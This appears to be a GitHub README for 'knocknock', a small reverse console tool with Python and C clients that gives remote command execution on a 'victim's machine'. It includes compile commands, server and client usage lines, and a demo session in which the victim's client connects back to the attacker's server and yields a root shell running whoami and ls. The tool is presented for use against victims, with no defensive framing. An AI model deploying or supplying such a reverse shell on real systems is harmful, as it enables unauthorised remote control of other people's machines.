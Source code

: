 > ![](cmd.ico) A Tiny REVERSE CONSOLE that allows you excute command on victim's machine.
>
> Python version Support both Python 2 & 3, no thirdpart dependencies.
> There is also a C version client side program Support Linux & Windows.
> WARN: (Server <=> Client communications not encrypted)

### Demo

![](demo.gif)

### Compile C version `knocknock.c`
```bash
# Windows CL
$> cl knocknock.c /O1 /D WIN32 /link /subsystem:console
# Windows or Linux gcc
$> gcc -Wall -O1 knocknock.c -o knocknock
```

### How To Use?
```bash
$> ./server.py bind_address:bind_port
$> ./knocknock.py server_ip:server_port[:retry_interval]

# Server Example
$> ./server.py 127.0.0.1:4433

# Client Example (C version has the same argument)
$> ./knocknock.py 127.0.0.1:4433 # default retry interval 60 seconds
$> ./knocknock.py 127.0.0.1:4433:60
```

## Example
#### Your Machine
```bash
root@server 07:47 /home $ ./server 0.0.0.0:2345
listen on 0.0.0.0:2345, waiting for connection.
connection from *.*.*.*:49006
$> whoami
root

$> ls -la
total 16
drwxr-xr-x  3 root root 4096 Feb 11 07:31 .
drwxr-xr-x 22 root root 4096 Jan 30 09:55 ..
-rwxr-xr-x  1 root root  532 Feb 11 07:31 knocknock
drwxr-xr-x  5 git  git  4096 Jan  3 08:41 jack

$>
```

#### Victim's Machine
```bash
root@boy 07:47 /home $ ./knocknock *.*.*.*:2345
```
End.
